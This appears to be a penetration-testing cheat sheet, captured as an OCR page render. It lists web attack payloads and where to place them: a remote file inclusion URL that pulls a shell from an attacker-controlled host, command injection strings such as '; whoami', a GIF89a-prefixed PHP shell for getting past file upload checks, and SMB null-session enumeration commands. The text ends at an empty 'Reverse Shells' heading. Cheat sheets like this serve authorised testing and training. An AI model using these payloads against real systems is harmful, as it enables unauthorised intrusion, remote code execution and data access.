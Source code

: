 ### 2.4 Remote File Inclusion (RFI) - **Where to Place: URL Parameters**

| **Payload** | **Usage** |
|------------|----------------|
| `http://<YOUR_IP>/shell.php` | Inject remote shell via file inclusion |

**Example Usage in URL:**  
```
http://<IP>/page.php?file=http://<YOUR_IP>/shell.php
```

### 2.5 Command Injection - **Where to Place: Form Fields / URL Parameters**

| **Payload** | **Usage** |
|------------|----------------|
| `; whoami` | Linux command injection (form field, URL parameter) |
| `&& ping -c1 <YOUR_IP>` | Test if remote system allows command execution |

**Example Usage in URL:**  
```
http://<IP>/search.php?q=hello;whoami
```

### 2.6 File Upload Bypass - **Where to Place: File Upload Form Fields**

| **Payload** | **Usage** |
|------------|----------------|
| `.php5`, `.phtml`, `.jsp` | Change extension to bypass file restrictions |
| `GIF89a;` + PHP shell | Inject PHP shell in image files |

---
## 3. SMB & Network Enumeration
| **Command** | **Usage / Options** |
|------------|----------------|
| `smbclient -L //<IP> -N` | List SMB shares (null session) |
| `smbmap -H <IP>` | Check SMB share permissions |
| `rpcclient -U "" <IP>` | Enumerate SMB RPC info |

---
## 4. Reverse Shells

### 4.1 Linux Reverse Shells
